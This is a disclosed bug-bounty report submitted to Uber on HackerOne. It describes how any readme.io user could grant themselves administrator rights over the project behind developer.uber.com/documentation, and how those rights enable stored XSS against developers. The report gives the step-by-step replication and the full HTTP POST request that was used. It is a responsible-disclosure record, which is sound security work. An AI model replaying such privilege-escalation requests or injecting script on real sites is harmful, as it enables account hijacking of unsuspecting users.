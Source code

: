 # Stored XSS on developer.uber.com via admin account compromise

## Report Details
- **Report ID**: 152067
- **URL**: https://hackerone.com/reports/152067
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2016-07-18T14:39:27.285Z
- **Disclosed**: 2016-08-12T16:22:23.217Z

## Reporter
- **Username**: albinowax
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: uber

## Vulnerability Information
Hi,

Anyone can add themselves as an administrator on the readme.io uber project that powers developer.uber.com/documentation

To replicate this, first fetch https://uber.readme.io/inactiveand and grab Uber's project ID from the source: 578cd33dc27ce20e004e397b

Then, using this ID, create a normal account on readme.io, verify the email address, log in, and send the following HTTP request:

POST /api/accept-invite/5617f98f7f74330d00dfd86d HTTP/1.1
Host: dash.readme.io
Connection: close
Content-Length: 2
Accept: application/json, text/plain, */*
X-NewRelic-ID: XQEHWF5UGwYHXVlSDgY=
Origin: https://dash.readme.io
X-XSRF-TOKEN:<your token here>
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/51.0.2704.103 Safari/537.36
DNT: 1
Referer: https://dash.readme.io/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-GB,en-US;q=0.8,en;q=0.6
Cookie: <your cookies here>


The server will respond with "Invite doesn't exist". However, if you go to dash.readme.io you will find that you can now access uber as an administrator. After logging in, I went straight to the users page, took a screenshot as evidence (attached) and removed myself as an administrator. 

Administrators are able to inject arbitrary JavaScript into documentation pages by design, so this could be used for a stored XSS attack on developer.uber.com to hijack developer accounts.


## Attachments
- dash.PNG
